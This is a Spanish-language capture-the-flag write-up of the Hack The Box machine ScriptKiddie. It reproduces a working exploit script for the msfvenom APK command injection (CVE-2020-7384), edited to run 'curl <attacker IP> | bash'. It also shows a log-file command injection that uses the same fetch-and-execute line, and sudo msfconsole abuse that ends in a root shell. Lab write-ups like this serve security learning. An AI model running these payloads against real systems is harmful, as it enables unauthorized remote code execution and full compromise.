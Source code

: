 ```yaml
---
layout: single
title: ScriptKiddie - Hack The Box
excerpt: "ScriptKiddie is an easy difficulty Linux machine that presents a Metasploit vulnerability ([CVE-2020-7384](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7384)), along with classic attacks such as OS command injection and an insecure passwordless `sudo` configuration. Initial foothold on the machine is gained by uploading a malicious `.apk` file from a web interface that calls a vulnerable version of `msfvenom` to generate downloadable payloads. Once shell is obtained, lateral movement to a second user is performed by injecting commands into a log file which provides unsanitized input to a Bash script that is triggered on file modification. This user is allowed to run `msfconsole` as `root` via `sudo` without supplying a password, resulting in the escalation of privileges."
date: 2024-04-18
classes: wide
header:
  teaser: /assets/images/htb-script/script.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags: 
  - Msfvenom
  - Script
  - Pivoting
---
```


![](/assets/images/htb-script/script.png)

ScriptKiddie is an easy difficulty Linux machine that presents a Metasploit vulnerability ([CVE-2020-7384](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7384)), along with classic attacks such as OS command injection and an insecure passwordless `sudo` configuration. Initial foothold on the machine is gained by uploading a malicious `.apk` file from a web interface that calls a vulnerable version of `msfvenom` to generate downloadable payloads. Once shell is obtained, lateral movement to a second user is performed by injecting commands into a log file which provides unsanitized input to a Bash script that is triggered on file modification. This user is allowed to run `msfconsole` as `root` via `sudo` without supplying a password, resulting in the escalation of privileges. 

## Portscan

```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n 10.10.10.226 -oG allports                                     
[sudo] contraseña para kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-18 11:48 CEST
Initiating Ping Scan at 11:48
Scanning 10.10.10.226 [4 ports]
Completed Ping Scan at 11:48, 0.08s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:48
Scanning 10.10.10.226 [65535 ports]
Discovered open port 22/tcp on 10.10.10.226
Discovered open port 5000/tcp on 10.10.10.226
Completed SYN Stealth Scan at 11:48, 13.04s elapsed (65535 total ports)
Nmap scan report for 10.10.10.226
Host is up, received echo-reply ttl 63 (0.12s latency).
Scanned at 2024-04-18 11:48:21 CEST for 13s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.38 seconds
           Raw packets sent: 68669 (3.021MB) | Rcvd: 67851 (2.714MB)

```
Y con esto analizamos los puertos abiertos:
```
nmap -sCV -p22,5000 -Pn 10.10.10.226 -oN targeted                                                                                                                                                                 130 ⨯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-18 11:54 CEST
Nmap scan report for 10.10.10.226
Host is up (0.053s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.21 seconds

```
## Analisis Web

Vemos que nos lleva a una pagina:
![](/assets/images/htb-script/pag1.png)

Vemos que la segunda introduccion de datos juega con msfvenom,  asi que vamos a buscar con searchsploit y encontramos un exploit. Nos lo llevamos a nuestro equipo y vammos a ver que hace:
```
# Exploit Title: Metasploit Framework 6.0.11 - msfvenom APK template command injection
# Exploit Author: Justin Steven
# Vendor Homepage: https://www.metasploit.com/
# Software Link: https://www.metasploit.com/
# Version: Metasploit Framework 6.0.11 and Metasploit Pro 4.18.0
# CVE : CVE-2020-7384

#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b64encode

# Change me
payload = 'curl 10.10.16.6 | bash'

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
dname = f"CN='|echo {payload_b64} | base64 -d | bash #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

tmpdir = tempfile.mkdtemp()
apk_file = os.path.join(tmpdir, "evil.apk")
empty_file = os.path.join(tmpdir, "empty")
keystore_file = os.path.join(tmpdir, "signing.keystore")
storepass = keypass = "password"
key_alias = "signing.key"

# Touch empty_file
open(empty_file, "w").close()

# Create apk_file
subprocess.check_call(["zip", "-j", apk_file, empty_file])

# Generate signing key with malicious -dname
subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

# Sign APK using our malicious dname
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

print()
print(f"[+] Done! apkfile is at {apk_file}")
print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null")

```
Hemos sustituido el comando para ejecutarnos una bash en nuestra ip, ahora le damos privilegios para poder meterlo en la página(sudo chown kali:kali -R /tmp/tmptgdoeu2s/)
Nos montamos un servidor en python y en escucha por la 443 y enviamos el exploit.

## Escalada de privilegios

Ahora ya hemos accedido al sistema.
Podemos encontrar la flag de usuario.
Vemos que hay un script hackers que no podemos leer pero si usar, y en el directorio logs encontramos el script de la app. La cual tambien usa scanloosers.sh en el directorio de otro usuario llamado pwn.
```
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
```
Aqui vemos que coje del script de hackers a partir del tercer input, lo que nos puede llevar a una posible inyeccion

```
echo "a b 10.10.16.6; curl 10.10.16.6 | bash #" > hackers
```
Si introducimos esto mientras seguimos en escucha en otra terminal por el puerto 443 y con un servidor en python3
Ahora hemos accedido al usuario pwn, vamos a ver que privilegios tiene este usuario:

```
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole

```
Podemos ejecutar el metasploit con root,  y dentro de metasploit podemos usar una consola en la que ejecutar comandos y como lo hemos iniciado con root podremos usar comandos de root, y por tanto encontrar la flag de root:

```
msf6 > irb
stty: 'standard input': Inappropriate ioctl for device
[*] Starting IRB shell...
[*] You are in the "framework" object

system("whoami")
Switch to inspect mode.
irb: warn: can't alias jobs from irb_jobs.
>> system("whoami")
root
system("bash")
=> true
>> system("bash")
whoami
root
cd /root
ls
root.txt
snap
cat root.txt
34e315f940c71771856d6c7d95c36340

```
Y ya lo tendriamos
